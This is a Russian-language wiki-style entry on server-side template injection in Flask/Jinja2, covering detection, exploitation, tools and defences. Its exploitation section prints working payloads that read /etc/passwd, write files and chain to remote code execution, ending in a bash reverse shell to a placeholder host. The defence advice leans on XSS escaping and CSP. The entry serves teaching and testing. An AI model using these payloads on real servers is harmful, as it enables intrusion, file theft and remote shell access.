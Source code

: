 # уязвимость/атака

## Описание
SSTI (server side template injection) - внедрение шаблонов на стороне сервера.
Механизмы шаблонов широко используются веб-приложениями для представления динамических данных через веб-страницы и электронные письма. Небезопасное встраивание пользовательского ввода в шаблоны позволяет внедрить шаблон на стороне сервера. Template Injection можно использовать для прямой атаки на внутренние компоненты веб-серверов и получения удаленного выполнения кода (RCE), превращая каждое уязвимое приложение в потенциальную опорную точку.

## Классификация


Client-side / Server-side Template Injection


## Условия
- ОС: любая
- язык: зависит от шаблонизатора (python, php, java)
- компоненты: фреймворк
- настройки: разные


## Детектирование


Для детектирования можно использовать tplmap и ручное тестирование путем ввода различных шаблонов, например:
`{{  7*7  }}`

`{{ 7 * '7'}}`
и т.д. 
Выполнение кода, введенного в шаблоне, сигнализирует о наличии данной  уязвимости.


##Информация:


https://portswigger.net/blog/server-side-template-injection
https://nvisium.com/blog/2015/12/07/injecting-flask.html
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
https://www.securitylab.ru/analytics/480275.php
https://defcon.ru/web-security/3840/




## Эксплуатация


###Дамп всех используемых классов (Dump all used classes)


`{{ [].class.base.subclasses() }}`

`{{''.class.mro()[1].subclasses()}}`

`{{''.__class__.__mro__[2].__subclasses__()}}`

###Дамп всех переменных конфигурации (Dump all config variables)


	{% for key, value in config.iteritems() %}
			<dt>{{ key|e }}</dt>
   		<dd>{{ value|e }}</dd>
	{% endfor %}

###Чтение из удаленных файлов (Reading remote files)


`''.__class__.__mro__[2].__subclasses__()[40] = File class`

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`

`{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}`



###Запись в удаленные файлы (Writing into remote files)
`{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt',`

`'w').write('Hello here !') }}`



###Удаленное выполнение кода (RCE)


`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from`

`subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config`

`{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config`

`{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to`

`evil host`










## Инструменты


Tplmap - это инструмент от [epinna](https://github.com/epinna), который помогает эксплуатировать уязвимость SSTI с помощью ряда методов выхода из песочницы, чтобы получить доступ к базовой операционной системе. Он может использовать несколько контекстов кода и сценариев слепого внедрения. [Github](https://github.com/epinna/tplmap)


search.py скрипт от DoubleSigma. [Link](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py).


## Ущерб


Получение информации с сервера, к которой мы не имеем доступа. Возможность удаленного внедрения кода в серверный скрипт.


## Защита
### Основные меры


Экранирование - технически реализация экранирования заключается в замене определенных символов их безопасными аналогами - html-кодами. Как правило, считаются опасными и подлежат замене 5 символов - это кавычки, знаки больше/меньше и амперсанд, то есть `&`, `<`, `>`, `"`, `'` 


`& --> &amp;`
 
` < --> &lt;`

` > --> &gt;`

` " --> &quot;`

` ' --> &#x27;   ( &apos;  не рекомендуется)`

` / --> &#x2F; `


Политика защиты контента (CSP) - в качестве последней линии защиты вы можете использовать Content Security Policy (CSP), чтобы уменьшить серьезность любых уязвимостей XSS, которые все еще возникают.


Политика защиты контента (CSP) — это дополнительный уровень безопасности, который помогает обнаружить и смягчить некоторые виды атак, в том числе межсайтовый скриптинг (XSS) и инъекцию данных. Эти атаки используются для всего, от кражи данных до порчи сайтов и распространения вредоносного ПО.


### Превентивные меры
Ограничение доступа к внутренней инфраструктуре для потенциально подверженных SSRF серверов.
Обработка данных, введенных пользователем. 


Защита от уязвимостей локального включения файлов (LFI) . Это означает, что вы не должны позволять пользователям контролировать путь к такому файлу или его содержимое.
## Дополнительно
http://xgu.ru/wiki/%D0%A8%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD%D0%B8%D0%B7%D0%B0%D1%82%D0%BE%D1%80 - шаблонизаторы


## Обход защиты


Обход фильтров (Filters bypass) - разработчики включают в web-приложения специальные фильтры для проверки содержимого запросов пользователя на наличие «инородных» данных и тем самым усложняя задачу нарушителя. Однако существуют и появляются новые методы, позволяющие обмануть проверку.